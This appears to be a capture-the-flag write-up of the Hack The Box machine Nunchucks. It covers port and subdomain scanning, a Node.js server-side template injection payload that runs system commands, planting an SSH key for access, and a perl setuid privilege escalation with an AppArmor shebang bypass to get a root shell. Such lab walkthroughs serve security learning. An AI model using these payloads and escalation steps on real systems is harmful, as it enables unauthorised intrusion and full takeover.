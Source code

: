 # [Nunchucks](https://app.hackthebox.com/machines/Nunchucks/)

```bash
nmap -p- --min-rate 10000 10.10.11.122 -Pn  
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.122 -Pn 
```

![Alt text](img/image-1.png)

I see that `nonchucks.htb` domain name should be added into `/etc/hosts` file.


Our application is like that.

![Alt text](img/image-2.png)



Let's do subdomain enumeration via `wfuzz` tool.
```bash
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb 
```

![Alt text](img/image-3.png)


I found `store.nunchucks.htb` subdomain, let's add this into `/etc/hosts` file also.


Now, I will try to do `SSTI` (Server-Side Template Injection) attack by adding payload `{{7*7}}` which then executed via `eval` method of backend.

![Alt text](img/image-4.png)


Here's, we can see real output of '7*7', it means we can add system command to execute on web application by using native template syntax.


**Note:** But I need to add backslash (\) to escape (") characters.

```bash
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Now, I can read `/etc/passwd` file.

![Alt text](img/image-5.png)


Let's add our public key into machine.

1.First, we need to create `.ssh` folder for `david` user.
```bash
mkdir /home/david/.ssh
```

![Alt text](img/image-6.png)

2.Then paste our public key (id_rsa.pub) into machine.
```bash
echo "public_Key" > /home/david/.ssh/authorized_keys
```

![Alt text](img/image-7.png)


Now, we can login our private key (id_rsa) file by using `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa david@nunchucks.htb

```


user.txt

![Alt text](img/image-8.png)


For privilege escalation, let's see capabilities `getcap -r / 2>/dev/null`.

![Alt text](img/image-9.png)


I see that `perl` binary has privilege can be attack vector for privilege escalation.

I looked at this on [Gtfobins](https://gtfobins.github.io/gtfobins/perl/#capabilities).


I did this, but it doesn't work.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![Alt text](img/image-10.png)


Let's try execute command.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```
![Alt text](img/image-11.png)


Maybe this prohibited due to `AppArmor`. This is used for `Mandatory Access Control`, let's look at bypass tricks on this [blog](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass)


I did below commands.

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```


root.txt

![Alt text](img/image-12.png)
